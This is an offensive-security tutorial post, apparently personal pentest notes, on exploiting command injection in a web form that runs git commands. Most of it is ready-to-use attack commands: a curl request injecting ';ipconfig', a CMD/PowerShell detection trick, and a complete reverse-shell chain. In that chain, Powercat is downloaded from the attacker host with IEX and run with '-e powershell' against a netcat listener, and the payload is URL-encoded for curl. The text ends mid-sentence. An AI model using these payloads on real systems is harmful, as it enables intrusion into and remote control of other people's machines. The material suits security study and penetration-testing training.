 ```yaml
---
layout: post
title: CMD Injection
titledate: 08/31/23
tags: ["infosec","offsec", "exploit", "web", "shell", "powershell", "curl"]
---
```


some applicagions may allow you to input queries or commands - in these instances we can try to add additional commands to them to see if they are properly filtered or strictly limited to what is allowed

In this example the web page allows you to enter a test command from the system command line for git, so we can grab the query in burp and then alter it to include our cmd

    $ curl -X POST --data 'cmd=git%3Bipconfig' http://192.168.50.50:8000/cmd

If we are targetting windows we can run a check to determine if the cmd executes in cmd or powershell

    $ (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

we may need to url encode the above command

<h4>Powercat</h4>

We can use Powercat to create a reverse shell

    $ /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1

first we serve the script with python
    
    $ python3 -m http.server 80

next we start our netcat listener

    $ nc -nlvp 443

finally we'll use curl to send a url encoded powershell reverse shell cmd to the target with our ip

```powershell
EX (New-Object System.Net.Webclient).DownloadString("http://192.168.1.1/powercat.ps1");powercat -c 192.168.1.1 -p 443 -e powershell
```
   
    $ curl -X POST --data 'cmd=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.1.1%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.1.1%20-p%20443%20-e%20powershell' http://192.168.50.50:8000/cmd

<h4>Linux Shell</h4>

using linux our attack might look like the following, where we use the bash one liner to create a tcp shell to our machine on 443

![_config.yml]({{ site.baseurl }}/images/web/bash_cmd_injection.png)

<h3>PAY ATTENTION TO QUOTES</h3>

with cmd injection in fields, if running some kind of language processing on the os like python etc 

